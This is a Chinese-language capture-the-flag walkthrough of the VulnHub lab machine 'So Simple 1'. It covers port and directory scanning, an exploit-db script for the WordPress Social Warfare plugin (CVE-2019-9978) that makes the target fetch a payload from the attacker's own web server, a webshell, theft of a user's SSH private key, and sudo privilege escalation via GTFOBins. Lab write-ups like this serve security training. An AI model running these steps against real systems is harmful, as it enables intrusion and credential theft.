 ```yaml
---
layer: article
title: Vulnhub	515 SO SIMPLE-1
tags: pentest vulnhub Walkthrough
---
```

考点：dirsearch,wordpress,sudo,id_rsa

靶机链接：<https://www.vulnhub.com/entry/so-simple-1,515/>

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| SIMPLE-1   | 10.0.2.30 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.30
$ sudo nmap -v -A -p- $rip
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5b:55:43:ef:af:d0:3d:0e:63:20:7a:f4:ac:41:6a:45 (RSA)
|   256 53:f5:23:1b:e9:aa:8f:41:e2:18:c6:05:50:07:d8:d4 (ECDSA)
|_  256 55:b7:7b:7e:0b:f5:4d:1b:df:c3:5d:a1:d7:68:a9:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: So Simple
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

### WEB测试

#### dirsearch

```bash
$ dirsearch -u http://10.0.2.30                    
[05:09:36] 200 -   13KB - /wordpress/ 
[05:09:36] 200 -    5KB - /wordpress/wp-login.php
```

看来是搞wordpress了

### 漏洞发现

```bash
$ wpscan --url http://10.0.2.30/wordpress/ --api-token ******************************************* 
```

![1](https://static.iihack.com/vulnhub/515/1.jpg)

参考[WordPress Plugin Social Warfare < 3.5.3 - Remote Code Execution](https://www.exploit-db.com/exploits/46794)

![2](https://static.iihack.com/vulnhub/515/2.jpg)

## 获得权限

### getwebshell

kali上开web服务

```bash
$ python -m 'http.server' 80
```

![3](https://static.iihack.com/vulnhub/515/3.jpg)



```bash
$ python2  46794.py -t http://10.0.2.30/wordpress/ -p http://10.0.2.24/CVE/CVE-2019-9978 
```

执行后访问shell地址返回200，使用antsword连接成功

![4](https://static.iihack.com/vulnhub/515/4.jpg)

### 获得id_rsa

发现`/home/max/.ssh/`目录可访问，下载id_rsa文件成功

ssh远程访问成功

![5](https://static.iihack.com/vulnhub/515/5.jpg)

## 提权

可免密执行`service`，[GTFOBins](https://gtfobins.github.io/gtfobins/service/)一把梭

![6](https://static.iihack.com/vulnhub/515/6.jpg)

成功切换用户

继续查看`sudo -l`，发现可免密执行`/opt/tools/server-health.sh`，但是这个文件不存在，只好自己新建写入了，运行获得root

![7](https://static.iihack.com/vulnhub/515/7.jpg)
